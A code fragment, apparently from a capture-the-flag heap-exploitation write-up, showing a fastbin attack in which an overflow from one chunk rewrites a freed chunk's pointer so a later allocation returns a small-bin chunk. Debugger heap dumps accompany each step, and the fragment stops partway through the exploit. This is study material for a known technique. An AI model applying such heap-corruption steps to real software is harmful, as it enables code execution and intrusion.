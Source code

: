 ```python
allocate(0x10) # i0,0x00
allocate(0x10) # i1,0x20
allocate(0x10) # i2,0x40
allocate(0x10) # i3,0x60
# fast bin size is 0x20,so we can calculate the offset each chunk
allocate(0x80) # i4,0x80
# dbg()
# pwndbg> x/24g 0x55e463353000
# 0x55e463353000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x55e463353010:   0x0000000000000000  0x0000000000000000
# 0x55e463353020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x55e463353030:   0x0000000000000000  0x0000000000000000
# 0x55e463353040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x55e463353050:   0x0000000000000000  0x0000000000000000
# 0x55e463353060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x55e463353070:   0x0000000000000000  0x0000000000000000
# 0x55e463353080:   0x0000000000000000  0x0000000000000091 <-- i4

free(1)
free(2)
# dbg()
# after free 2 fast bin,there is a fast bin list
# pwndbg> fast
# fastbins
# 0x20: 0x560eb6540040 -> 0x560eb6540020 <- 0x0
# 0x30: 0x0
# 0x40: 0x0
# 0x50: 0x0
# 0x60: 0x0
# 0x70: 0x0
# 0x80: 0x0
# pwndbg> x/24g 0x560eb6540000
# 0x560eb6540000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x560eb6540010:   0x0000000000000000  0x0000000000000000
# 0x560eb6540020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x560eb6540030:   0x0000000000000000  0x0000000000000000
# 0x560eb6540040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x560eb6540050:   0x0000560eb6540020  0x0000000000000000
# 0x560eb6540060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x560eb6540070:   0x0000000000000000  0x0000000000000000
# 0x560eb6540080:   0x0000000000000000  0x0000000000000091 <-- i4

# now we eidt i0 to make i1's bk point to small bin
payload = 'a'*0x10 + p64(0) + p64(0x21) # padding i1
payload += 'b'*0x10 + p64(0) + p64(0x21) + p8(0x80)
fill(0,len(payload),payload)
# dbg()
# now i2'bk point to small bin,
# and we allocate again we can get the small bin
# pwndbg> x/24g 0x55a1fa987000
# 0x55a1fa987000:   0x0000000000000000  0x0000000000000021 <-- i0
# 0x55a1fa987010:   0x6161616161616161  0x6161616161616161
# 0x55a1fa987020:   0x0000000000000000  0x0000000000000021 <-- i1
# 0x55a1fa987030:   0x6262626262626262  0x6262626262626262
# 0x55a1fa987040:   0x0000000000000000  0x0000000000000021 <-- i2
# 0x55a1fa987050:   0x000055a1fa987080  0x0000000000000000
# 0x55a1fa987060:   0x0000000000000000  0x0000000000000021 <-- i3
# 0x55a1fa987070:   0x0000000000000000  0x0000000000000000
# 0x55a1fa987080:   0x0000000000000000  0x0000000000000091 <-- i4

# pwndbg> fast
# fastbins
# 0x20: 0x55c37438a040 -> 0x55c37438a080 <- 0x0
```
